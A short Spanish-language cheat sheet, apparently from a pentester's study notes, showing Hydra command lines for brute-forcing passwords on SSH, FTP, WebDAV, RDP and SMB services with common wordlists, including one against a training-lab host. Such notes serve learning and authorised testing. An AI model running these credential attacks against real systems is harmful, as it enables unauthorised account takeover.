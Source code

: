 Es una herramienta para hacer ataques de fuerza bruta.

# Uso

### [[22-ssh|SSH]]

```
hydra -l <usuario> -P /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt ssh://<ip> -t 2 -v
```

### [[21-ftp|FTP]]

```bash
hydra -l <usuario> -P <wordlist (rockyou.txt)> ftp://<ip> -t <n_hilos>
```

Para una lista de usuarios podemos utilizar `-L`.

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -t 5 demo.ine.local ftp
```

### [[WebDAV]]

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <ip> http-get /webdav/
```

### [[3389-RDP|RDP]]

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt rdp://<ip> -s 3333
```

## [[445-SMB|SMB]] y [[161-SNMP|SNMP]]

```bash
hydra -L users.txt -P passwords.txt <ip> smb
```
